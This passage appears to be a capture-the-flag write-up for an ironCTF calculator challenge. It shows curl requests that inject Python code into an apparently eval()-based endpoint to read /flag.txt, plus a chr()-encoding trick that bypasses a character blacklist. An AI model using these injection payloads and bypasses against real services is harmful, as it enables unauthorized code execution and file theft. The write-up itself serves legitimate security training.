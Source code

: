 Oh shoot, that's a `Cloudflare` use case. LOL.

<aside>
💡

Cloudflare adds a /cdn-cgi/ endpoint ( www.example.com/cdn-cgi/ ) to that domain. This endpoint is managed and served by Cloudflare. It cannot be modified or customized.

</aside>

Ah, there’s always the CLI and `curl` to turn back to. Since this is a python server, and probably uses the `eval()` for the calculator application, let’s try and read the flag with the payload. `open('/flag.txt').read()`

Quite simple, except that it didn’t work.

<aside>
💡

`H "Content-Type: application/json"`: This header specifies that the data being sent is in JSON format. The server uses this information to correctly parse the incoming request body.

`d '{"expression": "open('/flag.txt').read()"}'`: This is the data being sent in the request body. It's a JSON object with a single key-value pair:

</aside>

```bash
└─$ curl -X POST https://calc.1nf1n1ty.team/calculate -H "Content-Type: application/json" -d '{"expression": "open('/flag.txt').read()"}'
{"result":"unsafe to execute g not allowed"}
```

Well, that got blocked, now looking for other types of payload to bypass this filter. This happened.

`open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()`

Basically, the idea is to bypass the filter by convert the characters of the payload to it’s ASCII codes and execute it on the server side as normal characters. And that worked. Yessir!

```bash
└─$ curl -X POST https://calc.1nf1n1ty.team/calculate -H "Content-Type: application/json" -d '{"expression": "open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()"}'
{"result":"ironCTF{aa4a7a86d4beb072c814af4400c7d1fbf09cf9b5}"}
```

Flag: `ironCTF{aa4a7a86d4beb072c814af4400c7d1fbf09cf9b5}`

Here’s `FrontS` write-up for the challenge.

```bash
Seeing the apk was created using Flutter, I decided to disassemble it using blutter. 
In the disassembled code, it's possible to see that the app seemed to have a 
hardcoded URL within.
In the source, a POST request with json content type was being created with the 
key of "expression" to be sent to https://calc.1nf1n1ty.team/calculate
Making a GET request to https://calc.1nf1n1ty.team/calculate 
reveals the application's source code location being "/home/user/app.py".
However I wasn't able to find any use of it.
Crafting a POST request exactly as the code mentions, it's possible to see that 
the value to the "expression" you provide, i.e {"expression":"5*5"} results in 25, 
essentially calculating it. 
However, after debugging it a bit, it's possible to deduce that we are within a 
python application which probably used eval(), though there was a very 
constraining blacklist: no unicode chars allowed except numbers and mathematical operators. 
To bypass this, it's feasible to use unicode characters that would get interpreted as their ascii counterparts in python. 
A little bit guessing and experience from other challenges made me think that 
the flag would be located at /flag.txt, which eventually turned out to be right, 
so our objective is to use a payload like open('/flag.txt').read(). 
```